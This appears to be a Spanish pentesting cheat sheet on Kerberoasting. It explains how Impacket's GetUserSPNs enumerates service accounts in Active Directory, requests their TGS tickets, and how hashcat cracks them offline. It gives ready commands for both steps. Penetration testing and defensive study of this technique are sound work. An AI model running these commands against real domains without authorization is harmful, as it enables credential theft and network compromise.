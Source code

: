 # Kerberoasting 

Tags: #AD #Kerberoasting #Impacket #Kali #Parrot #HashCat 

"Impacket-GetUserSPNs" es una herramienta de la suite Impacket, diseñada para interactuar con protocolos de red, específicamente en entornos Microsoft. Es ampliamente utilizada en pruebas de penetración y Red Teaming para identificar cuentas de servicio con nombres principales de servicio (SPNs) registrados en Active Directory (AD). Esto permite a los evaluadores descubrir posibles objetivos para ataques como Kerberoasting.

```bash 
- Los SPNs se utilizan en Active Directory para asociar un servicio específico con una cuenta de usuario o de computadora que ejecuta ese servicio. Esto es crucial para el proceso de autenticación Kerberos.
    
- Un SPN incorrectamente configurado o asociado con una cuenta de usuario en lugar de una cuenta de servicio puede ser explotado para comprometer la seguridad de la red.


GetUserSPNs en Impacket: La funcionalidad GetUserSPNs se utiliza específicamente para identificar y explotar configuraciones inseguras de SPNs dentro de un dominio de Active Directory. Aquí está cómo funciona:

1. Enumeración de SPNs: Primero, el atacante o pentester utiliza GetUserSPNs para enumerar todos los SPNs configurados en el dominio que están asociados con cuentas de usuario regulares en lugar de cuentas de servicio. Esto se hace enviando consultas al controlador de dominio y solicitando información específica sobre los SPNs.
    
2. Extracción de Tickets TGS: Una vez que se identifican las cuentas de usuario con SPNs, GetUserSPNs puede solicitar tickets de servicio Kerberos (conocidos como Ticket Granting Service o TGS) para esos servicios desde el controlador de dominio, utilizando la funcionalidad de Kerberos conocida como Kerberoasting.
    
3. Crackeo de Tickets: Los TGS obtenidos están cifrados con la contraseña de la cuenta de usuario asociada con el SPN. Sin embargo, debido a que muchas organizaciones utilizan políticas de contraseñas débiles, un atacante puede intentar "romper" el cifrado de estos tickets fuera de línea mediante fuerza bruta o técnicas de adivinación de contraseñas.
    
4. Compromiso de Cuentas: Si el atacante logra descifrar la contraseña de una cuenta, puede utilizar esas credenciales para acceder a sistemas, elevar privilegios, o realizar movimientos laterales dentro de la red, comprometiendo potencialmente la seguridad de toda la organización.
```

## Obtener Hash con Impacket-GetUsersSPNs

```bash 
❯ impacket-GetUserSPNs domain.corp/user:Password     # Mirar si el usuario es Kerberosteable y listar los usuarios a los que se le puede solicitar un TGS

❯ impacket-GetUserSPNs domain1.corp/user:Password -dc-ip IP -request  # Solicitar un TGS 
❯ impacket-GetUserSPNs domain1.corp/user:Password -dc-ip IP -request -outputfile kerb.txt  # Solicitar varios TGS
	
	# dc-ip = Dirección IP del DC
	# domain1 = Dominio 
	# user = Usuario valido del dominio 
	# Password = Contraseña del usuario valido 

Notas:
	1. Tener la IP con el dominio en '/etc/hosts'
	2. Cuando hay varios TGS para un usuario es mejor crear un archivo para extraer los hashes. De lo contrario no saldrán los hashes por consola 
```

## Crackear el Hash obtenido 

```bash 
# Guardar y crackear el hash con 'Hashcat'
❯ hashcat -m 13100 hash-kerberoasting /usr/share/wordlists/rockyou.txt --force

	# m = Método por fuerza bruta
	# 13100 = TGS de un Kerberoasting
	# hash-kerberoasting = Archivo que contiene el hash 
	# rockyou = Diccionario a usar 
```